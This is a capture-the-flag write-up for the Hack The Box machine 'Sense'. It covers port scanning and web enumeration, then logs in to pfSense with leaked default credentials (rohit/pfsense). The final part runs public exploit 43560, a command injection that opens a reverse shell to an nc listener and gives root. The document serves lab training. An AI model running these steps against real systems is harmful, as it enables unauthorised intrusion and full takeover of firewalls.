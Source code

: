# [Sense](https://app.hackthebox.eu/machines/111)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.60 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.60 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.60
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.60
```

The TCP quick scan returns the following:

![nmap1](./sense/nmap1.png)

Start the following web scanners:

```bash
nikto -h http://10.10.10.60/ -C all --maxtime=120s --output=nikto.http.txt
nikto -h https://10.10.10.60/ -C all --maxtime=120s --output=nikto.https.txt
```

The HTTP site redirects to the HTTPS site with the following:

![nitko1](./sense/nitko1.png)

Browse to the sites manually:

```bash
firefox http://10.10.10.60/  &
firefox https://10.10.10.60/ &
```

![web1](./sense/web1.png)

This looks like a standard login page for [pfsense](https://www.pfsense.org/). The default login is `admin/pfsense`, which does not work. Trying some other basic logins also does not work. Looking at the page source does not show much to help ID a version for exploit searching? Start a directory scanner looking for PHP files since the HTML source contains references to PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -k -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.60/ &
```

The full `nmap` scan returns an interesting file:

![nmap2](./sense/nmap2.png)

Maybe `changelog.txt` will help ID a version? Browsing to it shows the following text:

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

This looks custom. It seems like there may be a vulnerability left unpatched in the firewall? Try looking for an exploit:

```
searchsploit pfsense
```

![ss1](./sense/ss1.png)

Looking through these does not have many winners... Most need valid credentials for an exploit and others need an active admin on the site to click on a malicious link to get RCE. Maybe there are other interesting TXT files on the target since `change-log.txt` was found:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -k -r -q -z -o gobuster.text.txt -x txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.60/ &
```

This returns some new results:

```
/changelog.txt (Status: 200)
/tree (Status: 200)
/installer (Status: 200)
/system-users.txt (Status: 200)
```

`system-users.txt` looks interesting:

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

This looks helpful! Trying to login with the user `rohit` with a few default passwords does not seem to work? Maybe "company defaults" means "website defaualts"? Trying `rohit/pfsense` results in a login:

![web2](./sense/web2.png)

The page gives the pfsense version as `2.1.3`. From the original exploit list, exploit 43560 now looks promising:

- https://www.exploit-db.com/exploits/43560

The code sends a basic Python reverse shell through command injection with `status_rrd_graph_img.php`. Set up a listener and use the exploit:

```bash 
rlwrap nc -nvlp 6969
searchsploit -m 43560
python3 43560.py --username rohit --password pfsense --rhost 10.10.10.60 --lhost 10.10.14.27 --lport 6969
```

And this returns a shell as `root`:

![root1](./sense/root1.png)


